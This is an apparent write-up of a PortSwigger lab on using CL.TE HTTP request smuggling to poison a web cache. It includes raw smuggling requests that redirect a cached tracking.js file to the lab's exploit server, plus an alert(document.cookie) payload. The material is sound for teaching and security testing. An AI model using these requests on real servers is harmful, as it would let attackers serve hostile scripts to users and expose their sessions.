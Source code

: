 # Exploiting HTTP request smuggling to perform web cache poisoning

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-poisoning), you'll learn: Exploiting HTTP request smuggling to perform web cache poisoning! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★★☆☆☆☆☆

## Background

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server is configured to cache certain responses.

To solve the lab, perform a request smuggling attack that causes the cache to be poisoned, such that a subsequent request for a JavaScript file receives a redirection to the exploit server. The poisoned cache should alert `document.cookie`.

> Note:
>  
> The lab simulates the activity of a victim user. Every few POST requests that you make to the lab, the victim user will make their own request. You might need to repeat your attack a few times to ensure that the victim user's request occurs as required.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-16/images/Pasted%20image%2020230224191509.png)

In here, we can test for HTTP request smuggling.

First, we need to determine which headers are the web application is using. For example, CL.TE (Front-end uses `Content-Length` header, back-end uses `Transfer-Encoding` header) or TE.CL (Front-end uses `Transfer-Encoding` header, back-end uses `Content-Length` header).

- CL.TE:

**Attack request:**
```http
POST / HTTP/1.1
Host: 0adc005a0496944fc115647b0019000a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404pls HTTP/1.1
X-Foo: x
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-16/images/Pasted%20image%2020230224191828.png)

Normal request:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-16/images/Pasted%20image%2020230224191838.png)

As you can see, our normal request's response returns a 404 status code, which means **the web application is vulnerable to CL.TE HTTP request smuggling**!

But how can we escalate that vulnerability even futher??

**Burp Suite HTTP history:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-16/images/Pasted%20image%2020230224192047.png)

If you look at the HTTP history, ***everything that unders `/resources/*` can be cached!***

In the home page, we can also view other posts:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-16/images/Pasted%20image%2020230224193125.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-16/images/Pasted%20image%2020230224193140.png)

In the bottom of those posts, there's a link which can view the next post.

Burp Suite HTTP history:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-16/images/Pasted%20image%2020230224193241.png)

When we clicked on that link, it'll send a GET request to `/post/next` with parameter `postId`.

Then, it'll redirect us to the next post.

Hmm... It seems like the host is dynamically generated?

**Let's try to change the `Host` header to anything:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-16/images/Pasted%20image%2020230224193540.png)

Nope.

**Then try it via HTTP request smuggling:**
```http
POST / HTTP/1.1
Host: 0adc005a0496944fc115647b0019000a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 138
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: test.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

smuggled=yes
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-16/images/Pasted%20image%2020230224193717.png)

When we sent the second request, the web application respond with our smugged request (`/post/next?postId=3`), and ***redirected to `test.com` host***!

Armed with above information, if we can leverage HTTP request smuggling to perform web cache poisoning, we can basically redirect users to anywhere!

- Create and host the payload in the exploit server:

**Payload:**
```js
alert(document.cookie);
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-16/images/Pasted%20image%2020230224194151.png)

- Poison the cache:

First, we need to smuggle our redirect request, then poison the `/resources/js/tracking.js`, which will then import our evil payload.

**Smuggling request:**
```http
POST / HTTP/1.1
Host: 0adc005a0496944fc115647b0019000a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 189
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: exploit-0a9000af0467940ec17b62bc01be0092.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

smuggled=yes
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-16/images/Pasted%20image%2020230224194543.png)

**Cache poisoning request:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-16/images/Pasted%20image%2020230224194722.png)

Now, the victim should see the following alert box:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-16/images/Pasted%20image%2020230224194757.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-16/images/Pasted%20image%2020230224194805.png)

# What we've learned:

1. Exploiting HTTP request smuggling to perform web cache poisoning